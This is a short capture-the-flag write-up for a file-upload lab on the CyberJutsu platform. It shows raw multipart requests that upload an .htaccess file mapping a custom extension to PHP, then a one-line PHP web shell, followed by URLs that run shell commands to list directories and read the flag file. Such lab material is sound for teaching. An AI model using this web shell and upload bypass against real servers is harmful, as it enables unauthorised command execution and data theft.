





# Lab Writeup – File Upload 4

## Overview

Platform: CyberJutsu  
Difficulty: Easy

---



---

## 1. Upload File test.txt and Press submit



---

## 2. Capture packets in Burp Suite and send an HTTP POST request to upload .htaccess

```
------WebKitFormBoundaryiGKrNDI1sBJzul7b
Content-Disposition: form-data; name="file"; filename=".htaccess"
Content-Type: text/plain

<FilesMatch ".+\.tuanloc">
    SetHandler application/x-httpd-php
</FilesMatch>
------WebKitFormBoundaryiGKrNDI1sBJzul7b--
```



---

## 3. Continue uploading test.tuanloc which is web shell

```
------WebKitFormBoundaryiGKrNDI1sBJzul7b
Content-Disposition: form-data; name="file"; filename="test.tuanloc"
Content-Type: text/plain

<?php system($_GET[x]); ?>
------WebKitFormBoundaryiGKrNDI1sBJzul7b--
```



---

## 4. Access file test.tuanloc and add parameter for url

```
https://www.../test.tuanloc?x=ls%20-la%20/
```



---

## 5. Find and Read secret.txt to get FLAG

```
https://www.../test.tuanloc?x=cat%20/fead248f338-secret.txt
```
